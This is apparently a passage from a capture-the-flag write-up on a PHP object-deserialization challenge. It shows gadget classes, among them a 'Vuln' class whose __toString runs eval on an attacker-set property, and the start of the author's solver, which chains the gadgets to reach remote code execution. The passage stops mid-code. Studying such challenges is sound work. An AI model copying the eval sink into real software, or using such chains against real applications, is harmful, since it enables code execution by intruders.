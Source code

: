 ``` php
}
```
**GadgetTwo\Echoers.php:**
``` php
<?php

namespace GadgetTwo {
    class Echoers
    {
        protected $klass;
        
        function __destruct()
        {
            echo $this->klass->get_x();
        }
    }
}
```
**GadgetThree\Vuln.php:**
``` php
<?php

namespace GadgetThree {
    class Vuln
    {
        public $waf1;
        protected $waf2;
        private $waf3;
        public $cmd;
        function __toString()
        {
            if (!($this->waf1 === 1)) {
                die("not x");
            }
            if (!($this->waf2 === "\xde\xad\xbe\xef")) {
                die("not y");
            }
            if (!($this->waf3) === false) {
                die("not z");
            }
            eval($this->cmd);
        }
    }
}
```
**Solver:**\
To gain RCE, i modify this Gadget and create exploit. I also added a function '__construct()' to the Gadget Echoers to capture parameters when the class is defined, and then turned it into a variable so that it can be used by functions within the class.\
**GadgetTwo\Echoers.php:**
``` php
<?php

namespace GadgetTwo {
    class Echoers
    {
        protected $klass;

        function __construct()
        {
            $this->klass = new \GadgetOne\Adders(new \GadgetThree\Vuln());
        }
        
        function __destruct()
```